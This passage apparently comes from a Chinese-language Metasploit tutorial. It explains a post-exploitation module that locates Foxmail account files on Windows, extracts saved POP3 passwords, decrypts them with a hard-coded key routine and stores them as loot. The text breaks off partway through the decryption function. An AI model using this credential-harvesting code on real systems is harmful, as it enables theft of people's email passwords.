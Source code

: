 在开始理解前面的代码之前，让我们先看看其中使用了哪些重要函数，以便更好地使用这些函数：

| **功能** | **库文件** | **用法** |
| `grab_user_profiles()` | `lib/msf/core/post/windows/user_profiles.rb` | 获取 Windows 平台上重要目录的所有路径 |
| `directory?` | `lib/msf/core/post/file.rb` | 检查目录是否存在 |
| `file?` | `lib/msf/core/post/file.rb` | 检查文件是否存在 |
| `read_file` | `lib/msf/core/post/file.rb` | 读取文件的内容 |
| `store_loot` | `/lib/msf/core/auxiliary/report.rb` | 将获取的信息存储到文件和数据库中 |

我们可以在前面的代码中看到，我们使用`grab_user_profiles()`获取了配置文件，并且，对于每个配置文件，我们都尝试查找`LocalAppData`目录。我们一找到它，就把它存储在一个名为`full_path`的变量中。

接下来，我们将路径连接到`mail`文件夹，其中所有帐户都列为目录。我们使用`directory?`检查路径是否存在，成功后，我们使用正则表达式匹配将名称中包含`@`的所有目录名复制到`dir_list`。接下来，我们创建了另一个名为`full_path_mail`的变量，并为每封电子邮件存储`Account.stg`文件的确切路径。我们使用`file?`确保`Account.stg`文件存在。成功后，我们读取文件并在换行时拆分所有内容。我们将拆分的内容存储到`file_content`列表中。让我们看看代码的下一部分：

```
  file_content.each do |hash| 
  if hash =~ /POP3Password/ 
  hash_data = hash.split("=") 
  hash_value = hash_data[1] 
  if hash_value.nil? 
  print_error("No Saved Password") 
  else 
  print_good("Decrypting Password for mail account: #{dir_list}")  
  decrypted_pass = decrypt(hash_value,dir_list) 
  data_entry << "Username:" +dir_list + "t" + "Password:" + decrypted_pass+"n" 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  end 
  store_loot("Foxmail Accounts","text/plain",session,data_entry,"Fox.txt","Fox Mail Accounts") 
  end 
```

对于`file_content`中的每个条目，我们都进行了检查，以找到常数`POP3Password`。一旦找到，我们将常数拆分为`=`，并将常数值存储在变量`hash_value`中。

接下来，我们直接将`hash_value`和`dir_list`（账户名称）传递给`decrypt`函数。成功解密后，普通密码存储在`decrypted_pass`变量中。我们创建另一个名为`data_entry`的变量，并将所有凭证附加到该变量。我们之所以这样做，是因为我们不知道目标系统上可能配置了多少电子邮件帐户。因此，对于每个结果，凭证都会附加到`data_entry`。所有操作完成后，我们使用`store_loot`方法将`data_entry`变量存储在数据库中。我们为`store_loot`方法提供了六个参数，它们的名称是收获、内容类型、会话、`data_entry`、文件名和收获描述。

让我们了解解密函数，如下所示：

```
def decrypt(hash_real,dir_list) 
  decoded = "" 
  magic = Array[126, 100, 114, 97, 71, 111, 110, 126] 
  fc0 = 90 
  size = (hash_real.length)/2 - 1 
  index = 0 
  b = Array.new(size) 
  for i in 0 .. size do 
  b[i] = (hash_real[index,2]).hex  
  index = index+2 
  end 
  b[0] = b[0] ^ fc0 
  double_magic = magic+magic 
  d = Array.new(b.length-1) 
```